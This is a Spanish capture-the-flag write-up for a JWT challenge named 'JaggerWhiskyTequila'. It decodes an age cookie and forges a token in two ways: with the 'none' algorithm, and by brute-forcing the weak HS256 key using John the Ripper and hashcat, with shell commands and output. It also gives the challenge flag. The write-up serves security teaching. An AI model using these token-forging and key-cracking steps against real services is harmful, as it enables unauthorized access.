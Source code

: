 <h1 align="center">
    🍺 JaggerWhiskyTequila 🍺
</h1>

## 💭 Concepto


Cuando se accede a la web, se pueden observar distintos tipos de bebida. Al intentar comprar una, nos redirige a la URL `/compra` donde nos aparece el siguiente mensaje:

> No tienes +18 años

Si comprobamos las cookies, encontraremos una con el nombre de `cliente` y el siguiente valor:

```
eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJlZGFkIjoxN30.Lq26ql5McZjRfR-2zsTv1Z9UbygMvbbaXP53-QfXO-s
```

Con un poco de práctica, es posible reconocer la estructura de la misma. Las dos primeras letras (`ey`) indican que el comienzo de cadena es el caracter `{` seguido de un espacio o unas comillas. Además, la cookie consta de tres partes delimitadas por puntos.

Por lo tanto, se puede deducir que la solución estará basada en vulnerabilidades conocidas de `JWT`.

> Una pista a mayores es el nombre del reto: **J**agger**W**hisky**T**equila (**JWT**)

## 📜 Teoría

Lo primero de todo es decodificar la cookie. Para ello podemos hacer uso de herramientas online, como [JWT.io](https://jwt.io/), o segmentar la cadena según el delimitador (en este caso, un punto), dado que JWT sigue el siguiente formato:

![JWT Format](../.img/jwt-format.webp)

En el **Header** se especifica el tipo de formato que se utiliza, así como el algoritmo a usar para cifrar/descifrar los datos.

En el caso del reto, la información obtenida es la siguiente:

```sh
echo -n "eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9" | base64 -d
# {"typ": "JWT","alg": "HS256"} 
```

> `HS256` indica que el **Payload** está cifrado usando una clave

Si hacemos lo mismo con el segundo fragmento, podemos obtener la información guardada actualmente en la cookie:

```sh
echo -n "eyJlZGFkIjoxN30" | base64 -d
# {"edad":17}
```

Como vimos en la página de `/compra`, el mensaje nos indicaba que no teníamos más de 18 años. Ya sólo queda buscar la manera de modificar el valor de la cookie para especificar una edad mayor.

## 💣 Explotación

Este reto se puede resolver de varias maneras.

---

```yml
Vulnerabilidad: Algoritmo None
```

Aunque hoy en día ya no es habitual encontrarse con este fallo, hay veces que las páginas permiten el uso del algoritmo None o no comprueban la **Signature**.


En el primer caso y con el fin de modificar el **Payload** satisfactoriamente, bastaría con cambiar el valor de `"alg": "HS256"` a `"alg": "none"`.

En el segundo escenario, se puede optar por borrar la **Signature**, aunque no sería necesario.

Podemos generar nuestro nuevo `JWT` usando el siguiente script de **bash**:

```sh
echo -n $(echo -n '{"typ":"JWT","alg":"none"}' | base64).$(echo -n '{"edad":18}' | base64). | tr -d "="
# eyJ0eXAiOiJKV1QiLCJhbGciOiJub25lIn0.eyJlZGFkIjoxOH0.
```

Ahora sólo queda reemplazarlo en la página web y recargar la página para obtener la `flag`.

---

```yml
Vulnerabilidad: Clave HS256 débil
```

Es posible que la clave usada para firmar el **Payload** no sea lo suficientemente fuerte, por lo que sería viable realizar un ataque de fuerza bruta para averiguarla.

La forma estándar de hacerlo es con programas como `JohnTheRipper` o `HashCat`.

Para ello, debemos guardar el valor de la cookie en un fichero:

```sh
echo -n "eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJlZGFkIjoxN30.Lq26ql5McZjRfR-2zsTv1Z9UbygMvbbaXP53-QfXO-s" > jwt.hash
```

Una vez guardado, podemos usar diccionarios como `rockyou.txt` para realizar el ataque:

```sh
# Usando JohnTheRipper
john jwt.hash --wordlist=/usr/share/wordlists/rockyou.txt --format=HMAC-SHA256

# Usando HashCat
hashcat -m 16500 jwt.hash /usr/share/wordlists/rockyou.txt
```

En ambos casos, nos dará la clave usada para firmar los datos: `alcoholic`.

Para editar el contenido, podemos hacer uso de herramientas online (como [JWT.io](https://jwt.io/)) o generarla mediante este script en `bash`:

```sh
token=`echo -n $(echo -n '{"typ":"JWT","alg":"HS256"}' | base64).$(echo -n '{"edad":18}' | base64) | tr -d "=" | tr '/+' '_-'`; sign=$(echo -n ${token} | openssl dgst -sha256 -hmac "alcoholic" -binary | base64 | tr -d "=" | tr '/+' '_-'); echo -n "${token}.${sign}"

# eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJlZGFkIjoxOH0.E17PNNNY9mUUNT4VJdKMlMilOP0hZc5ihlMBdar6cCM
```

Igual que antes, sólo queda reemplazar el nuevo token en la página y recargar para obtener la `flag`.

## 🏁 Flag

```
pumaCTF{JwT_4lc0h0l_n_h4nG0v3R}
```